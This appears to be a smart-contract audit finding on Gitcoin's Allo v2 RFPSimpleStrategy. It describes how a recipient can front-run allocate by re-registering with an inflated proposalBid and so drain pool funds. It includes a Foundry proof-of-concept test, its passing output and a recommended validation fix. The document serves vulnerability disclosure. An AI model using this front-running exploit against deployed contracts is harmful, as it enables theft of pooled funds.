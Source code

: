 Clumsy Pecan Jay

high

# RFP recipient can steal pool funds without supplying all milestones by re-registering before allocation

Due to a missing terms validation at allocation a `recipient` is able to update their `proposalBid`  just before the manager allocates them for the task.

The recipient can steal more then intended funds from the pool or the entire pool while providing only a single milestone 

## Vulnerability Detail

```solidity
    function _registerRecipient(bytes memory _data, address _sender)
        internal
        override
        onlyActivePool
        returns (address recipientId)
    {
--------
        // Get the recipient
        Recipient storage recipient = _recipients[recipientId];

        if (recipient.recipientStatus == Status.None) {
            // If the recipient status is 'None' add the recipient to the '_recipientIds' array
            _recipientIds.push(recipientId);
            emit Registered(recipientId, _data, _sender);
        } else {
            emit UpdatedRegistration(recipientId, _data, _sender);
        }
-------
        recipient.proposalBid = proposalBid;
        recipient.recipientStatus = Status.Pending;
    }
```

As can be seen above, a recipient can update their `proposalBid` as long as thee pool is `active` (before allocation). 

This enable a malicious recipient to change their  `proposalBid`  at the same block as the manager calls `allocate`:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L395
```solidity
    function _allocate(bytes memory _data, address _sender)
        internal
        virtual
        override
        nonReentrant
        onlyActivePool
        onlyPoolManager(_sender)
    {
        // Decode the '_data'
        acceptedRecipientId = abi.decode(_data, (address));
        Recipient storage recipient = _recipients[acceptedRecipientId];
-----
        // Update status of acceptedRecipientId to accepted
        recipient.recipientStatus = Status.Accepted;

        _setPoolActive(false);
-----
    }
```

As can be seen above - although `allocate` is used to chose the recipient based on the terms, there are no validation of the recipient terms (`proposalBid`) 

After submission the manager will distribute the funds by calling `_distribute`
```solidity
    function _distribute(address[] memory, bytes memory, address _sender)
        internal
        virtual
        override
        onlyInactivePool
        onlyPoolManager(_sender)
    {
-------
        Recipient memory recipient = _recipients[acceptedRecipientId];
-------
        // Calculate the amount to be distributed for the milestone
        uint256 amount = (recipient.proposalBid * milestone.amountPercentage) / 1e18;

        // Get the pool, subtract the amount and transfer to the recipient
        poolAmount -= amount;
        _transferAmount(pool.token, recipient.recipientAddress, amount);
-------
    }
```

The updated `proposalBid` can be set to a value that will result in an `amount` equal to a higher then intended amount per milestone or the *entire pool amount.

Consider the following scenario:
1. Manager creates an RFP pool with `100 ETH`.
2. Manager sets `two` milestones with `70%` payment for first milestone and `30%` for second.
3. Multiple recipients apply but `Alice` applies with a cheap `proposalBid` of only `20 ETH`.
4. Since `Alice` proposal is cheap, the manager calls `allocate` to chose `Alice`.
5. `Alice` front-runs the call to `allocate` and re-registers updating her `proposalBid` to `100 ETH`. 
6. `Alice` completes the first milestone and submits it and the manager accepts the submission.
7. The manager calls `distribute` to move to the next milestone and pay `Alice` rewards of `14 ETH` however `70 ETH` is sent instead.

*Alice would be able to steal the entire pool if a single milestone is used.

## Impact

Theft of more then intended and potentially all pool funds.

## Code Snippet

Add the following test to `RFPSimpleStratagy.t.sol`
```solidity
    function test_stealPoolFunds() external {
        uint256 poolTotalBeforeFee = 100 ether;
        uint256 percentFee =  (poolTotalBeforeFee * 1e16) / 1e18;
        uint256 poolTotal = poolTotalBeforeFee - percentFee;

        // Fund pool with ~100 ether
        vm.deal(pool_admin(), 100 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: poolTotalBeforeFee}(poolId, poolTotalBeforeFee);

        // Increase max bid to ~100 ether
        vm.prank(pool_admin());
        strategy.increaseMaxBid(poolTotal);

        // Register
        address sender = recipient();
        uint256 recipientFakeProposalBid = 20 ether;
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, recipientFakeProposalBid, metadata);
        vm.prank(address(allo()));
        address recipientIdReceived = strategy.registerRecipient(data, sender);

        // Set Milestones
        __setMilestones();

        // Front-run allocate
        data = abi.encode(recipientAddress(), false, poolTotal, metadata);
        vm.prank(address(allo()));
        recipientIdReceived = strategy.registerRecipient(data, sender);

        // Allocate
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientIdReceived), address(pool_admin()));

        // Submit milestone
        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        // Distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());

        // Alice should receive 70% of the poolTotal (~70 eth)
        assertEq(recipientAddress().balance, (poolTotal * 7e17) / 1e18);
    }
```

To execute the test run:
```solidity
forge test --match-test "test_stealPoolFunds" -v
```

Expected output: 
```solidity
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_stealPoolFunds() (gas: 607506)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.84ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Tool used

Manual Review

## Recommendation

At allocation - The expected `proposalBid` should be part of `data` and be validated
Add the following check:
```solidity
        // Decode the '_data'
        uint256 expectedProposalBid;
        (acceptedRecipientId, expectedProposalBid) = abi.decode(_data, (address, uint256));

        Recipient storage recipient = _recipients[acceptedRecipientId];

        if (acceptedRecipientId == address(0) || recipient.recipientStatus != Status.Pending || recipient.proposalBid != expectedProposalBid ) {
            revert RECIPIENT_ERROR(acceptedRecipientId);
        }
```